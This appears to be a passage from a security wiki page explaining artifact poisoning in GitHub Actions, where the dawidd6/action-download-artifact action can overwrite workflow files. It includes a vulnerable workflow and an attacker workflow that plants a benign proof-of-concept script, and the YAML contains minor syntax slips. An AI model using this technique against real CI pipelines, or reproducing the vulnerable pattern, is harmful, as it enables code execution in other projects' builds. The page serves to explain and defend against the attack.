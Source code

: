 As mentioned in [**this blog post**](https://www.legitsecurity.com/blog/github-actions-that-open-the-door-to-cicd-pipeline-attacks), this Github Action allows to access artifacts from different workflows and even repositories.

The thing problem is that if the **`path`** parameter isn't set, the artifact is extracted in the current directory and it can override files that could be later used or even executed in the workflow. Therefore, if the Artifact is vulnerable, an attacker could abuse this to compromise other workflows trusting the Artifact.

Example of vulnerable workflow:

```yaml
on:
    workflow_run:
        workflows: ["some workflow"]
        types:
            - completed
            
jobs:
    success:
        runs-on: ubuntu-latest
        steps:
            - uses: actions/checkout@v2
            - name: download artifact
              uses: dawidd6/action-download-artifact
              with:
                workflow: ${{ github.event.workflow_run.workflow_id }}
                name: artifact
            - run: python ./script.py
              with:
                  name: artifact
                  path: ./script.py
```

This could be attacked with this workflow:

```yaml
name: "some workflow"
on: pull_request

jobs:
    upload:
        runs-on: ubuntu-latest
        steps:
            - run: echo "print('exploited')" > ./script.py
            - uses actions/upload-artifact@v2
              with:
                name: artifact
                path: ./script.py
```

***

## Other External Access

